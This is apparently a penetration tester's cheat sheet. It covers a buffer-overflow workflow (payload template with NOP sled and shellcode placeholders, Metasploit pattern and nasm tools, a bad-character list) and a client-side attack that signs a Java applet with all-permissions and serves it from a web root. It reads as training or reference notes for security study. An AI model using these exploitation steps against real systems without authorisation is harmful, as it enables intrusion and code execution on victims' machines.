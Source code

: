 # https://gtfobins.github.io/
Buffer Overflow
# Payload
payload = "\x41" * <length> + <ret_address> + "\x90" * 16 + <shellcode> + "\x43" * <remaining_length>

# Pattern create
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

# Pattern offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q <address>

# nasm
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp eax

# Bad characters
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

# Client Side Attack
/usr/lib/jvm/java-8-openjdk-i386/bin/javac -source 1.7 -target 1.7 Java.java

echo "Permissions: all-permissions" > /root/manifest.txt

/usr/lib/jvm/java-8-openjdk-i386/bin/jar cvf Java.jar Java.class

/usr/lib/jvm/java-8-openjdk-i386/bin/keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123

/usr/lib/jvm/java-8-openjdk-i386/bin/jarsigner -keystore mykeystore -storepass password123 -keypass mykeypass -signedjar SignedJava.jar Java.jar signapplet




cp Java.class SignedJava.jar /var/www/html/
